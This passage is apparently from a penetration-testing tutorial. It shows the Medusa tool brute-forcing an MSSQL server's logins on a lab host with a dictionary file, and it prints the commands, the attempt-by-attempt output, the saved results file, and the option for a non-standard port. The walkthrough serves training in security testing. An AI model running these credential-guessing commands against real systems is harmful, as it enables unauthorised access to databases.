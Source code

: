 ```bash
Medusa v2.0 \[http://www.foofus.net\] (C) JoMo-Kun / Foofus Networks

ACCOUNT CHECK: [mssql] Host: 192.168.134.132 (1 of 1, 0 complete) User: admin (1 of 3, 0 complete) Password: admin (1 of 3 complete)
ACCOUNT CHECK: [mssql] Host: 192.168.134.132 (1 of 1, 0 complete) User: admin (1 of 3, 0 complete) Password: password (2 of 3 complete)
ACCOUNT CHECK: [mssql] Host: 192.168.134.132 (1 of 1, 0 complete) User: admin (1 of 3, 0 complete) Password: sa (3 of 3 complete)
ACCOUNT CHECK: [mssql] Host: 192.168.134.132 (1 of 1, 0 complete) User: password (2 of 3, 1 complete) Password: admin (1 of 3 complete)
ACCOUNT CHECK: [mssql] Host: 192.168.134.132 (1 of 1, 0 complete) User: password (2 of 3, 1 complete) Password: password (2 of 3 complete)
ACCOUNT CHECK: [mssql] Host: 192.168.134.132 (1 of 1, 0 complete) User: password (2 of 3, 1 complete) Password: sa (3 of 3 complete)
ACCOUNT CHECK: [mssql] Host: 192.168.134.132 (1 of 1, 0 complete) User: sa (3 of 3, 2 complete) Password: admin (1 of 3 complete)
ACCOUNT CHECK: [mssql] Host: 192.168.134.132 (1 of 1, 0 complete) User: sa (3 of 3, 2 complete) Password: password (2 of 3 complete)
ACCOUNT FOUND: [mssql] Host: 192.168.134.132 User: sa Password: password [SUCCESS]
```

Your output file resemble the following.

```bash
root@bt:~# cat medusaOutput.txt
# Medusa v.2.0 (2011-12-12 22:59:43)
# medusa -h 192.168.134.132 -U dictionary.txt -P dictionary.txt -O medusaOutput -M mssql
ACCOUNT FOUND: [mssql] Host: 192.168.134.132 User: sa Password: password [SUCCESS]
# Medusa has finished (2011-12-12 22:59:46).
```

The file output is much easier to parse and we can see in the next to last line that it was successful in finding credentials of username = sa and password = password. By default medusa will run against the standard port which is 1433 in this case, if you want medusa to run against a non standard port you'll need to include the "-n" option.

```bash
root@bt:~# medusa -h 192.168.134.132 -U dictionary.txt -P dictionary.txt -O medusaOutput -M mssql -n 1444
Medusa v2.0 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks

ACCOUNT CHECK: [mssql] Host: 192.168.134.132 (1 of 1, 0 complete) User: admin (1 of 3, 0 complete) Password: admin (1 of 3 complete)
ACCOUNT CHECK: [mssql] Host: 192.168.134.132 (1 of 1, 0 complete) User: admin (1 of 3, 0 complete) Password: password (2 of 3 complete)
ACCOUNT CHECK: [mssql] Host: 192.168.134.132 (1 of 1, 0 complete) User: admin (1 of 3, 0 complete) Password: sa (3 of 3 complete)
ACCOUNT CHECK: [mssql] Host: 192.168.134.132 (1 of 1, 0 complete) User: password (2 of 3, 1 complete) Password: admin (1 of 3 complete)
ACCOUNT CHECK: [mssql] Host: 192.168.134.132 (1 of 1, 0 complete) User: password (2 of 3, 1 complete) Password: password (2 of 3 complete)
ACCOUNT CHECK: [mssql] Host: 192.168.134.132 (1 of 1, 0 complete) User: password (2 of 3, 1 complete) Password: sa (3 of 3 complete)
ACCOUNT CHECK: [mssql] Host: 192.168.134.132 (1 of 1, 0 complete) User: sa (3 of 3, 2 complete) Password: admin (1 of 3 complete)
ACCOUNT CHECK: [mssql] Host: 192.168.134.132 (1 of 1, 0 complete) User: sa (3 of 3, 2 complete) Password: password (2 of 3 complete)
ACCOUNT FOUND: [mssql] Host: 192.168.134.132 User: sa Password: password [SUCCESS]
```
